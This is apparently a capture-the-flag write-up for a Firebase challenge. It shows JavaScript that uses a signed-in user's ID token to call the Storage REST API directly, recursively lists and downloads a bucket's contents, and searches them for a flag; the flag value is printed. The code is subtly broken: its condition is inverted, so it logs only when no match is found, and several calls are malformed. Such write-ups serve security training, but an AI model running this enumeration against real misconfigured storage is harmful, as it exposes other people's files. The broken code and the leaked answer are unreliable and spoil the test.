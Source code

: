# Flag 5 - Read the Almanac

1. As Biff, recursively read the Biffco storage ``gs://$project_id.appspot.com/biffco``
1. Using ``firebase.storage().ref("/biffco").list()`` only returns ``/biffco/flag.json``. Instead we need to fetch directly the [storage API](https://cloud.google.com/storage/docs/json_api/v1/objects/list) to list and download everything.
  
    ```js
    firebase.auth().currentUser.getIdToken().then((token) => 
       recursiveList(token,"biffco/");
    );

    function fetchStorageAPI(_token, _url) {
        return new Promise((_resolve,_reject) => {
            fetch(
                _url,
                {
                    headers: {
                        "Authorization":"Firebase " + _token,
                        "X-Firebase-Storage-Version":"webjs/10.4.0"
                    }
                })
            .then((resp) => {
                resp.text((data) => {
                    _resolve(data);
                });
            });
        }) 
    }

    const baseURL = "https://firebasestorage.googleapis.com/v0/b/hf2k23-firebase-misc.appspot.com/o/";

    function recursiveList(_token, _basePath) {
            var url = `${baseURL}?prefix=${encodeURIComponent(_basePath)}&delimiter=%2f`;

            fetchStorageAPI(_token,url)
            .then((data) => {
                data = JSON.parse(data);

                data.prefixes.forEach((_pre) => recursiveList(_token,_pre));

                data.items.map((i) => {
                    firebase.storage.ref(_basePath + "/" + i.name).download()
                    .then((data) => {
                        matches = data.match(/HF-[a-f0-9]{32}/);
                        if(!matches) {
                            console.log(matches[0]);
                        }
                    });
                });
            });
    }
    ```

    **Flag: HF-080de2172b964a229d14377793f6df85**